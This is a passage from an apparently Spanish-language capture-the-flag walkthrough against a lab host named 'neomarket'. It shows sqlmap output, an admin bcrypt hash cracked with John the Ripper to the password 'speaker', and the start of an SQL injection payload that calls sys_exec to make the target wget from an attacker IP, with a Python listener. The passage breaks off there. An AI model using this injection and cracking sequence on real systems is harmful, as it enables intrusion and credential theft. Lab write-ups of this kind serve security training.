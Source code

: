 ```
[09:07:45] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/neomarket.bbl'

[*] ending @ 09:07:45 /2025-03-21/
```

Vemos que nos saca las credenciales del usuario `admin` el otro usuario lo cree yo, por lo que vamos a probar a `crackear` la contraseña del usuario `admin`.

### John (crack)

> hash

```
admin:$2y$10$eSNt.VwyKFUryoPxEJOZTu0OG8sux3S7G1nBF8VetEVIgeOp/q1gC
```

Ejecutaremos lo siguiente:

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
speaker          (admin)     
1g 0:00:00:50 DONE (2025-03-21 09:10) 0.01983g/s 99.24p/s 99.24c/s 99.24C/s marlen..jarvis
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que la contraseña es `speaker`, pero si iniciamos sesion como dicho usuario no veremos nada, por lo que vamos a buscar alguna forma de ejecutar codigo de forma remota (`RCE`) mediante un `SQL Injection (RCE)`.

### SQL Injection (RCE)

Si por ejemplo probamos a realizar lo siguiente:

```
'+OR+1=1+AND+sys_exec('wget+http://<IP>:8000/test')--+-
```

Para ver si se esta ejecutando codigo de forma remota, antes de enviar dicha peticion abriremos un servidor de `python3` para ver si nos llega.

```shell
python3 -m http.server
```

Nos tendra que quedar algo asi la peticion:
